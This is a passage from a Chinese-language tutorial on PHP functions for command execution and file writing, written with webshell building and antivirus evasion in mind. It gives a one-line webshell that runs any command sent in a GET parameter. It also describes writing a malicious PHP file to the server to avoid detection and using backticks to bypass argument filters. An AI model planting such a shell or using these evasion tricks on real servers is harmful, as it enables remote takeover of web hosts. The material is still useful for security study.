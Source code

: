 ```php
passthru('ls');    //index.php
```

### 3.6 popen()

**`popen()` 函数可以执行系统命令,但不会输出执行的结果，而是返回一个资源类型的变量用来存储系统命令的执行结果**

故需要配合 `fread()` 函数来读取命令的执行结果

Demo：执行 `ls` 命令

```php
$result = popen('ls', 'r');    //参数1:执行ls命令 参数2:字符串类型
echo fread($result, 100);      //参数1:上面生成的资源 参数2:读取100个字节
```

### 3.7 反引号``

**反引号可以执行系统命令但不会输出结果，而是返回一个字符串类型的变量用来存储系统命令的执行结果**

可单独使用，也可配合其他命令执行函数使用来绕过参数中的过滤条件

Demo：执行 `ls` 命令

```php
echo `ls`;    //index.php
```

所以，就可以通过这个写出几乎最短的Webshell了

```php
<?=`$_GET[1]`;
```


## 4# 文件写入类函数

### 4.0 Tips

在Webshell的免杀过程中，一部分人另辟蹊径：通过执行一个执行内容为”写入恶意PHP“的样本来绕过查杀，执行成功后会在指定目录写入一个恶意PHP文件，最后通过连接那个恶意PHP文件获得WebShell

### 4.1 fwrite()

**`fwrite()` 函数是用于写入文件，如果成功执行，则返回写入的字节数；失败，则返回 FALSE**

Demo：将 `Hello World. Testing!` 写入 `test.txt`

```php
$file = fopen("test.txt","w");
echo fwrite($file,"Hello World. Testing!");    //21
fclose($file);
```

### 4.2 file_put_contents()

**`file_put_contents()` 函数把一个字符串写入文件中**
